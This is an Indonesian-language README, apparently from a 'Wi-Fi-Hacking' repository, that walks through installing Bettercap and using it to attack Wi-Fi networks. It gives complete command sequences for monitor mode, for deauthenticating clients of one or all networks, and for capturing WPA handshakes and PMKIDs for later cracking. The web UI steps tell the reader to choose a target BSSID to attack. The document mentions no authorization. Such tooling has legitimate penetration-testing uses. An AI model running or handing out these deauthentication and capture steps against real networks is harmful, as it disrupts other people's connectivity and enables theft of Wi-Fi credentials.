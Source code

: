 # Bettercap

[Bettercap](https://www.bettercap.org/) adalah perangkat lunak kerangka kerja keamanan yang kuat, mudah diperluas, dan portabel, ditulis menggunakan bahasa `Go`. Perangkat ini dirancang sebagai alat terpadu yang mudah digunakan bagi peneliti keamanan, tim pengujian penetrasi (red team), dan spesialis reverse engineering. Fitur-fiturnya memungkinkan pengumpulan informasi serta pengujian dan eksploitasi keamanan pada jaringan Wi-Fi, perangkat Bluetooth Low Energy (BLE), perangkat Human Interface Device (HID) nirkabel, jaringan CAN-bus, serta jaringan IPv4 dan IPv6.

## Instalasi

Kali Linux:

1. Pake packet manager (`apt`):

```
sudo apt-get update
sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
bettercap -version
```

2. Pake Go:

```
sudo apt-get update
sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
go install github.com/bettercap/bettercap/v2@latest
sudo mv ~/go/bin/bettercap /usr/local/bin/
bettercap -version
```

Untuk informasi lebih lengkapnya lagi bisa lihat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Penggunaan

Sebelum menggunakan bettercap, kita harus mengaktifkan mode monitor dulu pake:

```
sudo airmon-ng check kill
sudo airmon-ng start [interface]
```

### 1. Mode Interaktif

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode WEB UI

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian web ui starting on, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang ingin dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Lakukan scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, antara lain:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan dBm.
   - `ESSID`: Nama jaringan Wi-Fi.
   - `BSSID`: Alamat MAC unik dari Access Point.
   - `Vendor`: Produsen perangkat Access Point berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang digunakan oleh jaringan Wi-Fi.
   - `Ch`: Kanal (channel) yang digunakan oleh Access Point.
   - `Clients`: Jumlah perangkat klien yang saat ini terhubung ke AP tersebut.
   - `Sent`: Jumlah paket data yang dikirim dari perangkat ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh perangkat.
   - `Seent`: Menunjukkan jumlah paket yang terdeteksi (seen) dari klien atau AP yang dipantau.
8. Di sini, kita harus memilih BSSID target yang ingin diserang, lalu klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita dapat melakukan dua jenis serangan, antara lain:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Untuk Capture Handshake, klik `Deauthenticate Client`. Untuk Capture PMKID, klik `Associate`. Dalam panduan ini, kita akan memilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Memerlukan setidaknya 1 klien yang aktif.
   > - Capture PMKID: Tidak semua router mendukung PMKID.
10. Setelah klik `Deauthenticate Client`, tunggu sampe handshake berhasil capture. Handshake dianggap berhasil capture kalo muncul ikon `kunci merah` pada bagian `Encryption` dan notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari ketiga item di bagian pesan:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar di bawah ini kelihatan kalo file handshake disimpan di: `/root/bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
